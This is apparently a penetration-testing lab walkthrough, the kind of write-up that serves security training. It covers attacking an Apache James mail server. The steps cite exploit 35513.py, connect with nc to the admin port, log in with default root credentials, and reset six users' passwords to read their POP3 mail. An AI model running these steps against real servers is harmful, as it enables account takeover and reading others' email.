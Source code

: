 #### 35513 RCE
exploit 35513.py

#### Manual
```bash - kali
nc -nvC $TARGET 4555
```

[https://james.apache.org/server/archive/configuration_v2_0.html](https://james.apache.org/server/archive/configuration_v2_0.html)

```bash - kali
root
```

```bash - kali
root
```
   
```bash - kali
HELP
```

```bash - kali
listusers
```

We do not have the ability to view user credentials. However can do the next best thing: we can change them with the setpassword command. Once we do so, we should be able to log onto the POP3 server and see if there are any emails available. We'll go ahead and change all the user credentials and then log on one by one.

```bash - kali
setpassword alice abcd
```

```bash - kali
setpassword bob abcd
```

```bash - kali
setpassword carlos abcd
```

```bash - kali
setpassword david abcd
```

```bash - kali
setpassword earl abcd
```

```bash - kali
setpassword frank abcd
```

```bash - kali
quit
```

While we could login one-by-one with our newly controlled credentials, we might as well use a little bash in order to speed up the process.

![[Port 110 - POP3#POP3 sh]]

